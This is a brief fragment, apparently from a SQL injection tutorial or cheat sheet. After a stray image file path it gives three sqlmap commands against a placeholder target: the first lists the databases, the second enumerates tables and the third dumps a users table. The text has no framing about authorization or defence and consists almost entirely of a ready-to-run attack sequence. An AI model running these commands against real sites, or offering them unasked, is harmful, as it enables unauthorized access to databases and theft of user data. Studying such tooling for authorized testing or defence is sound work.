 1. initial scan:
```
sqlmap -u "http://target.com/page.php?id=1" --dbs
```
2. database enumeration:
```
sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables
```
3. detailed extraction:
```
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T users_table --dump
```

